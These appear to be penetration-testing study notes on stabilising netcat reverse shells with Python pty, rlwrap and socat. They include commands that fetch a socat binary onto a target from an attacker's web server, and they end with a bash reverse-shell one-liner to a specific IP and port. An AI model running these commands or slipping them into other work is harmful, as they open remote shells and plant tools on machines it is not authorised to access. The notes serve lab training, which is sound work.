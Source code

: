  **Below we are discussing three techniques to stabilise netcat shell**

1. Technique 1: Python
- The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default.
- This is a three stage process:
	1. The first thing to do is use `python3 -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
		- At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
	2. Step two is: `export TERM=xterm` -- this will give us access to term commands such as `clear`.
	3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things:
		- first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).
		- It then foregrounds the shell, thus completing the process.
**The full technique can be seen here:**
![[shells5.png]]
**Note** - if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.  

---

2. Technique 2: rlwrap
	- rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell_;_ however, s_ome_ manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
	- rlwrap is not installed by default on Kali, so first install it with
```python
sudo apt install rlwrap
```

To use rlwrap, we invoke a slightly different listener:
```python
rlwrap nc -lvnp <port>
```

- This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.
- When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

3.  Technique 3: Socat
	- The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.
	- this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell.
	- To accomplish this method of stabilisation we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.
		- A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).
		- For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`)
**Changing your terminal tty size**
1. First, open another terminal and run `stty -a`. 
![[shells6.png]]
Note down the values for "rows" and columns:

2. Next, in your reverse/bind shell, type in:
`stty rows <number>`  

and

`stty cols <number>`

bash -i >& /dev/tcp/10.17.47.177/4444 0>&1

